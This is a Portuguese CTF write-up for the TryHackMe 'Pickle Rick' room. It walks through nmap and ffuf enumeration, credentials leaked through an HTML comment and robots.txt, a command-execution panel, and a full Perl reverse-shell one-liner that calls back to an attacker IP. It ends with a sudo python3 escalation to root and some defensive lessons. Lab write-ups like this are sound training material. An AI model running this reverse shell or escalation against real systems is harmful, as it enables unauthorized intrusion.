





# Pickle Rick — TryHackMe Writeup

> **Plataforma:** TryHackMe  
> **Dificuldade:** Easy  
> **Categoria:** Web · Linux Privilege Escalation  
> **Objetivo:** Encontrar 3 ingredientes escondidos para Rick voltar a ser humano  

---

## Sumário

- [Reconhecimento](#reconhecimento)
- [Enumeração Web](#enumeração-web)
- [Acesso Inicial](#acesso-inicial)
- [Escalada de Privilégio](#escalada-de-privilégio)
- [Flags](#flags)
- [Lições Aprendidas](#lições-aprendidas)

---

## Reconhecimento

Scan completo com detecção de versão e scripts padrão:

```bash
nmap -sV -sC -p- 10.112.133.22
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
```

Duas portas abertas: **SSH (22)** e **HTTP (80)**. O SSH retorna um aviso de *"store now, decrypt later"* — descartado por ora. O foco é a aplicação web.

---

## Enumeração Web

### Código-fonte da página inicial

Antes de qualquer ferramenta, inspecionar o código-fonte é o primeiro passo. Um comentário HTML na página inicial vaza o username:



```html
<!-- Note to self, remember username! Username: R1ckRul3s -->
```

### Fuzzing de diretórios

Com o username em mãos, mapeamos os recursos da aplicação com **ffuf**:

```bash
ffuf -u http://10.112.133.22/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.html,.txt,.bak
```



Dois recursos relevantes encontrados:

| Recurso | Status | Descrição |
|---|---|---|
| `login.php` | 200 | Página de login oculta |
| `robots.txt` | 200 | Contém dado sensível |

### robots.txt

O arquivo `robots.txt` estava sendo usado para esconder a senha:

```
Wubbalubbadubdub
```

Credenciais obtidas:

| Campo | Valor |
|---|---|
| Username | `R1ckRul3s` |
| Senha | `Wubbalubbadubdub` |

---

## Acesso Inicial

### Command Panel

Após o login em `login.php`, o portal expõe um **Command Panel** que executa comandos diretamente no servidor como `www-data`.



Para obter uma shell interativa, utilizamos um reverse shell em Perl executado pelo painel:

```perl
perl -e 'use Socket;$i="SEU-IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Listener no Kali:

```bash
nc -lvnp 4444
```

Shell recebida como `www-data`. A **primeira e segunda flags** estão acessíveis sem privilégios elevados, navegando pelo sistema de arquivos.

---

## Escalada de Privilégio

### sudo -l

Primeiro comando após obter acesso:

```bash
sudo -l
```



```
User www-data may run the following commands on ip-10-112-133-22:
    (ALL) NOPASSWD: ALL
```

`www-data` pode executar qualquer comando como root sem senha.

### Python3 → root

O sistema possui Python3 disponível. Com `sudo`, spawnar um bash root é trivial:

```bash
sudo python3
```

```python
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
```



Shell root obtida. A **terceira flag** está em `/root/`.

---

## Flags

| # | Localização |
|---|---|
| 🥒 1ª flag | `/home/rick/` |
| 🥒 2ª flag | Acessível como `www-data` |
| 🥒 3ª flag | `/root/` — requer root |

---

## Lições Aprendidas

- **Inspecionar o código-fonte sempre** — comentários HTML são um vetor clássico de vazamento de credenciais.
- **`robots.txt` não é segurança** — qualquer dado colocado ali é completamente público.
- **`sudo -l` é o primeiro comando** após acesso inicial — `NOPASSWD: ALL` encerra a escalada imediatamente.
- **Interpretadores com sudo são vetores de privesc** — Python, Perl, Ruby e outros podem spawnar shells privilegiadas via chamadas ao sistema.

---

*by [nicolashenrique-dev](https://github.com/nicolashenrique-dev)*
